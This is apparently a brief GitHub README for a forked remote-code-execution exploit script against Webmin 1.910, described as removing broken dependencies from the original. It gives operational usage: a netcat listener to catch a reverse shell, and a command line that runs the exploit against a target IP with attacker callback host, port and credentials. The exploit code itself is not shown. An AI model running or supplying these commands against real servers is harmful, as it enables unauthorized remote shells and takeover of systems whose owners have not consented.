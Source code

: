# webmin_rce
webmin rce (authorized)

This script its a fork from https://raw.githubusercontent.com/roughiz/Webmin-1.910-Exploit-Script/master/webmin_exploit.py

The code deletes wrong dependencies in the code. You can use with this poc.

```bash
## terminal1
nc -lvnp 1234
## terminal2
## rhost only ip without :10000
python2.7 webmin_exploit.py  --rhost ip --lhost yourip --lport 1234 -u youruser -p yourpass
```
